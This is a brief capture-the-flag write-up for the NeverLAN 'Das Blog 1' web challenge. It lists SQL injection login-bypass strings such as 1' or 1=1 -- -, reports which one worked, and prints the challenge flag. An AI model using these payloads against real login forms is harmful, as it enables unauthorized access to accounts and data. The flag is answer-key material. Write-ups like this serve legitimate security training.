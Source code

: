 [Das Blog 1]
---
Question:
---
	Word on the street, Johnny's got a blog. Seems he doesn't know how to escape his inputs.
	https://challenges.neverlanctf.com:1125

Answer
---
	1. The task pretty much gives away that it's an escape character sql injection we need.
	2. Tried several escape methods like:

	' or ' 1=1
	' or '1'='1
	1' or 1=1 -- -

	3. 1' or 1=1 -- - ended up working

![alt text] (https://i.imgur.com/CnKkYvX.png)
![alt text] (https://i.imgur.com/ekTcAX8.png)
![alt text] (https://i.imgur.com/P9uOsh8.png)


Flag:
---
	flag{3sc4pe_Y0ur_1npu7s}
